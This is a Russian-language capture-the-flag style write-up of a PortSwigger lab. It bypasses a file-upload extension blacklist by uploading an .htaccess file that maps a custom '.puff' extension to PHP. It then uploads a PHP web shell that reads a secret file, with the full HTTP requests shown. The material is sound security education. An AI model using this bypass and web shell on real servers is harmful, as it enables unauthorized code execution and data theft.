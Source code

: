 ```yaml
---
title: "Web shell upload via extension blacklist bypass"
date: 2025-08-15
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/
```

## Solution

Воду в аккаунт, чтобы получить доступ к форме загрузки файлов.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/1.png){: height="200" .align-center}

Попробую загрузить `php` файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/2.png){: height="200" .align-center}

Не удивительно, так как в названии лабы фигурует `blacklist bypass`. Значит нужно найти такое расширение, что не в ходит в этот черный список. Для этого воспользуюсь [вот этой репой](https://github.com/mathiasbynens/small/blob/master/.htaccess) на github. Ее я позаимствовал из [этого поста](https://t.me/hahacking/78). Начну попорядку с `.htaccess`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/3.png){: height="200" .align-center}

Получилось.

`.htaccess` — это конфигурационный файл веб-сервера Apache, позволяющий управлять работой веб-сервера и настройками сайта с помощью различных параметров (директив) без изменения основного конфигурационного файла веб-сервера. С помощью `AddType` я могу попробовать добавить обработку файлов с кастомным расширенем, как `php`. Попробую добавить такую функцию для файлов с расширением `.puff`:

```ы
AddType application/x-httpd-php .puff
```

Для его загрузки я использовал следующий запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 503
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .puff

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

Поле `Content-Type` я заменил на `text/plain`, а имя файла `filename` на `.htaccess`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/4.png){: height="200" .align-center}

Файл успешно сохранен, значит можно протестировать `.puff` файл. Для этого переименую `php` файл в `exploti.puff` и загружу его на сайт, заменив `Content-Type` на `application/x-httpd-php`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 537
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename="exploit.puff"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/5.png){: height="200" .align-center}

Время проверить свою аватарку)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/6.png){: height="200" .align-center}

Сдам токен `7GvfAzPQ9moCc5oEgdtXqldiB0LxX2Kr` в форму проверки для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/7.png){: height="200" .align-center}
